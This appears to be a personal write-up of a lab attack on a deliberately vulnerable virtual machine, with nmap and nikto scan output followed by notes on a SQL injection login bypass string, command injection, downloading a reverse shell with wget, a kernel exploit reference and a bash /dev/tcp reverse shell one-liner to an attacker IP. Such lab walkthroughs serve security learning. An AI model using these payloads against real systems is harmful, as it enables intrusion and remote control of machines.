

Target IP: 10.0.0.25
Attacker IP: 10.0.0.22
Nmap scan report for 10.0.0.25
Host is up (0.0022s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
| 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_ 1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp open http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 663/udp status
|_ 100024 1 666/tcp status
443/tcp open ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after: 2010-10-08T00:10:47
|_ssl-date: 2018-06-13T16:12:48+00:00; -3h09m48s from scanner time.
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
| SSL2_RC4_64_WITH_MD5
|_ SSL2_RC4_128_WITH_MD5
631/tcp open ipp CUPS 1.1
| http-methods:
|_ Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
666/tcp open status 1 (RPC #100024)
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 00:0C:29:03:49:2E (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48s
Started dirb and nikto again.
--- Scanning URL: http://10.0.0.25/ ----
+ http://10.0.0.25/cgi-bin/ (CODE:403|SIZE:285)
+ http://10.0.0.25/index.php (CODE:200|SIZE:667)
==> DIRECTORY: http://10.0.0.25/manual/
+ http://10.0.0.25/usage (CODE:403|SIZE:282)
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Server leaks inodes via ETags, header found with file /manual/, fields: 0x5770d 0x1c42 0xac5f9a00;5770b 0x206 0x84f07cc0
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8328 requests: 1 error(s) and 17 item(s) reported on remote host
+ End Time: 2018-06-13 15:27:39 (GMT-4) (67 seconds)
Web server has this


I didn't find any exploits for any of the services so at this point, I was assuming I can use sql injection to bypass the login form. My manual injection attempts didn't work.
I also tried sqlmap but It didn't seem to work.
I did find an exploit named sigcups but that didn't seem to work either.
I had to look at a walkthrough for a hint. WTF, I had tried similar SQL injection and that didn't work. I used sqlmap with data I got from burp and that didn't work...
So this
admin' OR 1=1-- - works
but
admin' OR 1=1-- doesn't
damn it.
here's what I see

You can do command injection here

There are the users on the system:

The machine has wget and python installed.
I modified infodox tcp reverse shell and used simplehttpserver to serve it. on target side, i downloaded that shell to temp.

This was the kernel running 2.6.9-55.EL on Centos 4.5.
There is an exploit for that: https://www.exploit-db.com/exploits/9542/

I was checking other walkthroughs and you can also use this for reverse shell:
bash -i >& /dev/tcp/192.168.182.147/443 0>&1
I copied it from http://www.gcura.tech/vulnhub-kioptrix-level-1-1-2/
I think that technique is mentioned in RTFM book too.